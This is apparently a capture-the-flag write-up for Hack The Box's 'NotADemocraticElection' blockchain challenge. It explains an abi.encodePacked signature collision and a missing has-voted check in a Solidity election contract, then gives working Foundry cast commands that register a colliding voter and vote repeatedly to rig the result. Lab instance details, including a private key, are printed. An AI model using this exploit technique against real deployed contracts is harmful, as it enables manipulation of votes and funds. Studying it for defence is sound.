






# [HTB Blockchain] NotADemocraticElection

## Introduction

This challenge is titled **"NotADemocraticElection"**, part of the blockchain category, worth 975 points. According to the scenario, in a post-apocalyptic wasteland the Automata Liberation Front (ALF) and the Cyborgs Independence Movement (CIM) are competing for control, and power is conveyed by wealth rather than genuine democracy. My task was to make the CIM party win the election, regardless of how the vote counts were actually supposed to add up.



## Preparation

I started by downloading the scenario files provided through the **Scenario Files** button. The archive contained three files:

```
blockchain_notademocraticelection.zip
 foundry.toml
 NotADemocraticElection.sol
 Setup.sol
```

This confirmed the challenge was built with **Foundry**, a common toolkit for Solidity smart contract development and testing.

## Source Code Analysis

### Setup.sol

```solidity
contract Setup {
    NotADemocraticElection public immutable TARGET;

    constructor() payable {
        TARGET = new NotADemocraticElection(
            bytes3("ALF"), "Automata Liberation Front",
            bytes3("CIM"), "Cyborgs Indipendence Movement"
        );
        TARGET.depositVoteCollateral{value: 100 ether}("Satoshi", "Nakamoto");
    }

    function isSolved() public view returns (bool) {
        return TARGET.winner() == bytes3("CIM");
    }
}
```

The setup deploys the election contract with two parties, ALF and CIM, then deposits **100 ether** of voting collateral on behalf of a voter named Satoshi Nakamoto. The challenge is solved once the winner reported by the election contract equals CIM.

### NotADemocraticElection.sol

Looking at the main contract, three functions stood out.

```solidity
function getVoterSig(string memory _name, string memory _surname) public pure returns (bytes memory) {
    return abi.encodePacked(_name, _surname);
}
```

This function concatenates the name and surname using abi.encodePacked with **no delimiter** between them. This immediately raised a red flag, since packing two dynamic length strings together without a separator is a well known source of collisions:

```
encodePacked("Satoshi", "Nakamoto") == encodePacked("SatoshiNakamoto", "")
```

Both calls produce the exact same packed bytes, the string SatoshiNakamoto.

```solidity
mapping(bytes _sig => Voter) public voters;
mapping(string _name => mapping(string _surname => address _addr)) public uniqueVoters;
```

This is where the bug becomes exploitable. The voters mapping, which stores the collateral weight, is keyed by the packed bytes signature. But the uniqueVoters mapping, which stores who owns that signature, is keyed by the **raw name** and **surname** pair as separate mapping keys. Since two different name and surname pairs can produce the same packed signature, it is possible to register a brand new uniqueVoters entry that points at an **already funded** voters entry.

```solidity
function vote(bytes3 _party, string memory _name, string memory _surname) public {
    require(uniqueVoters[_name][_surname] == msg.sender, "You cannot vote on behalf of others.");
    bytes memory voterSig = getVoterSig(_name, _surname);
    uint256 voterWeight = voters[voterSig].weight == 0 ? 1 : voters[voterSig].weight;
    parties[_party].totalvotes += 1 * voterWeight;
    emit Voted(msg.sender, _party);
    checkWinner(_party);
}
```

There is a second bug here as well. The vote function never marks a voter as having already voted, it only checks ownership of the name and surname key. That means the same voter can call vote as many times as they want, and each call adds the **full weight again** to the target party's total votes.

## Building the Exploit

Combining both bugs gives a clean path to victory, with zero extra ETH required.

1. Register a new voter using a name and surname pair that collides with Satoshi Nakamoto's already funded signature, for example SatoshiNakamoto as the name and an empty surname. Since this is a different uniqueVoters key, the ownership check passes, and it becomes owned by the attacker's address. The corresponding voters entry, keyed by the shared packed signature, already holds **100 ether** worth of weight from the setup deposit.
2. Call vote for CIM using the colliding name and surname repeatedly. Each call adds another 100 ether worth of weight to CIM's total votes, since the weight is never consumed or flagged as used.
3. After **10** calls, the total votes reach the 1000 ether target, automatically triggering the winner check and setting the winner to CIM.

## Getting the Connection Details

I connected to the challenge instance through the terminal option provided on the challenge page:

```
nc 154.57.164.82 32700
```

Selecting option 1 returned the connection information needed to interact with the target:

```
Private key     : 0x136803fee501a67e65a2dc9f675db71daf261864320bce462a34767a4a688ded
Address         : 0x6a991B18A71F9eA9891eEB142ecE2B666d0893A9
Target contract : 0x3f51b04a7A72a4f2a34A5F7ba443b31Bb90BA1D8
Setup contract  : 0x6BD20C582F3D38e5eD08418e2e069ae31121BDE8
```



The RPC endpoint was shown separately on the challenge page under Docker Spawn, on port 32404.

## Executing the Exploit

With Foundry installed on the Pwnbox, I set the environment variables for the session:

```bash
export RPC_URL="http://154.57.164.82:32404"
export PRIVATE_KEY="0x136803fee501a67e65a2dc9f675db71daf261864320bce462a34767a4a688ded"
export TARGET_ADDR="0x3f51b04a7A72a4f2a34A5F7ba443b31Bb90BA1D8"
export SETUP_ADDR="0x6BD20C582F3D38e5eD08418e2e069ae31121BDE8"
```

**Step 1, register the colliding voter** with zero deposit, since the weight is already funded through the collision:

```bash
cast send $TARGET_ADDR \
  "depositVoteCollateral(string,string)" "SatoshiNakamoto" "" \
  --rpc-url $RPC_URL --private-key $PRIVATE_KEY
```



**Step 2, vote for CIM ten times**, using the packed encoding of CIM as bytes. I saved this as a small script to run all ten calls in one go:

```bash
for i in $(seq 1 10); do
  cast send $TARGET_ADDR \
    "vote(bytes3,string,string)" "0x43494d" "SatoshiNakamoto" "" \
    --rpc-url $RPC_URL --private-key $PRIVATE_KEY
  echo "=== Vote $i done ==="
done
```

```bash
chmod +x vote_loop.sh
./vote_loop.sh
```

## Verifying the Result

After the loop finished, I checked the winner directly on chain:

```bash
cast call $TARGET_ADDR "winner()(bytes3)" --rpc-url $RPC_URL
```



This is the hex encoding of CIM, confirming the election had been won. I then confirmed the challenge's own solved condition:

```bash
cast call $SETUP_ADDR "isSolved()(bool)" --rpc-url $RPC_URL
```



## Getting the Flag

With the challenge confirmed solved, I went back to the nc session and selected option 3 to get the flag:



## Conclusion

I honestly thought this challenge would be a lot harder than it turned out to be. Seeing a target of one thousand ether worth of votes, with my own account starting from zero, made it feel like I would somehow need to find a way to mint tokens or drain a huge amount of funds just to compete. It looked intimidating at first glance. 

But once I slowed down and read the contract function by function instead of trying to understand everything at once, the real issue became obvious. The bug was not in some complex financial logic, it was hiding in a tiny detail, the way two strings were packed together without anything separating them.

What made this challenge satisfying to solve was realizing that I did not need any of my own ether AT ALL. I only needed to understand how the contract identified a voter versus how it stored that voter's weight, and exploit the small gap between the two. Combined with the missing check that should have stopped someone from voting more than once, ten simple transactions were enough to flip the entire election in favor of CIM.